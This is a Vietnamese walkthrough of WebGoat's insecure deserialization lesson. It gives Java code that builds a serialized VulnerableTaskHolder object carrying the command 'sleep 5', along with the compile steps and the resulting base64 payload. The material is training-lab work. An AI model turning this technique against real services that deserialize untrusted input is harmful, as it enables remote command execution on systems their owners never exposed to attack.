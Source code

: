 # (A8) Insecure Deserialization

## Insecure Deserialization

### 5. Let’s try

Đầu tiên là chuẩn bị lại phần code `VulnerableTaskHolder.java` dựa theo bài 3:

```java
package org.dummy.insecure.framework;

import java.io.*;
import java.time.LocalDateTime;

public class VulnerableTaskHolder implements Serializable {
	private static final long serialVersionUID = 2;

	private String taskName;
	private String taskAction;
	private LocalDateTime requestedExecutionTime;

	public VulnerableTaskHolder(String taskName, String taskAction) {
		super();
		this.taskName = taskName;
		this.taskAction = taskAction;
		this.requestedExecutionTime = LocalDateTime.now();
	}
}
```

Lưu ý phần `serialVersionUID = 2` là được mình lấy từ trong source của WebGoat [VulnerableTaskHolder.java](https://github.com/WebGoat/WebGoat/blob/develop/webgoat-lessons/insecure-deserialization/src/main/java/org/dummy/insecure/framework/VulnerableTaskHolder.java). Phần `serialVersionUID` phải khớp với server thì lúc deserialize mới được.

Tiếp theo là file `BuildExploit.java`:

```java
import org.dummy.insecure.framework.*;

import java.io.*;
import java.util.Base64;

public class BuildExploit {
    public static void main(String args[]) throws Exception{
        VulnerableTaskHolder vulnObj = new VulnerableTaskHolder("bruh", "sleep 5");
        
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bos);
        oos.writeObject(vulnObj);
        oos.close();
        
        System.out.println(Base64.getEncoder().encodeToString(bos.toByteArray()));
    }
}
```

Lưu ý rằng ở phần code của cả 2 file phải có dòng `package org.dummy.insecure.framework` và `import org.dummy.insecure.framework.*` thì `serialVersionUID` mới được sử dụng và exploit được.

Để compile được `BuildExploit.java` thì mình setup 2 file như sau: 

```console
$ tree
.
├── BuildExploit.java
└── org
    └── dummy
        └── insecure
            └── framework
                └── VulnerableTaskHolder.java

4 directories, 2 files
```

And then we build and run `BuildExploit.java` hehe:

```console
$ javac BuildExploit.java
$ java BuildExploit
rO0ABXNyADFvcmcuZHVtbXkuaW5zZWN1cmUuZnJhbWV3b3JrLlZ1bG5lcmFibGVUYXNrSG9sZGVyAAAAAAAAAAICAANMABZyZXF1ZXN0ZWRFeGVjdXRpb25UaW1ldAAZTGphdmEvdGltZS9Mb2NhbERhdGVUaW1lO0wACnRhc2tBY3Rpb250ABJMamF2YS9sYW5nL1N0cmluZztMAAh0YXNrTmFtZXEAfgACeHBzcgANamF2YS50aW1lLlNlcpVdhLobIkiyDAAAeHB3DgUAAAflDB4ACjUd9oL0eHQAB3NsZWVwIDV0AARicnVo
```

Submit đoạn base64 trên là xong xD.